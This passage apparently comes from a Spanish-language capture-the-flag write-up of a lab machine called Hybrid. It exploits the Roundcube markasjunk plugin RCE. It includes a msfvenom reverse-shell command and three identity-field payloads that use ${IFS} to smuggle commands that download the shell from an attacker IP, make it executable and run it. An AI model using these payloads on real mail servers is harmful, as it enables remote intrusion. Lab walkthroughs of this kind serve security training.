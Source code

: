 Se puede intuir que a partir de aquí la explotación irá por el lado del "plugin" del que hablan en el correo. Acto seguido se busca algún tipo de plugin con vulnerabilidad relacionado con roundcube, encontramos lo siguiente:

[Markasjunk](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce)

![](../assets/images/vl-hybrid/Pasted_image_20240713221650.png)

Se puede entender que cambiando el campo "identity" y luego mandando un correo como "junk" se puede ejecutar comandos arbitrarios en la máquina. 

Se procede a crear una shell con **msfvenom**, subirla y ejecutarla con este rce en **Settings >Identities** , los comandos para poder conseguirlo son los siguientes:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.2.240 LPORT=80 -f elf > shell`

```
admin&wget${IFS}10.8.2.240/shell${IFS}-O${IFS}/tmp/shell&@hybrid.vl

admin&chmod${IFS}+x${IFS}/tmp/shell&@hybrid.vl

admin&/tmp/shell&@hybrid.vl
```

![](../assets/images/vl-hybrid/Pasted_image_20240713222648.png)
